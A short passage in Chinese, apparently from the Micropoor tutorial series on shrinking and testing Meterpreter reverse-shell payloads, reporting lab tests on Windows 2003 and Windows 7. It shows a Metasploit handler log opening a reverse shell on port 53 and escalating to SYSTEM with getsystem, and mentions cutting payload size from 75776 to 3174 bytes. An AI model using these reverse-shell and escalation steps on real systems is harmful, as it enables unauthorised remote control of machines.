 **第三次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：**/MT**  

![](../do/media/4e172aa523497f62e049cc0e7dfb622a.jpg)

![](../do/media/25c74a3a578b2e23477821175b489769.jpg)

```code
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
![](../do/media/74defd3d7b4b42c88aadac9d9d4fd476.jpg)

### 第四次优化payload：

.......

文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。

>   Micropoor
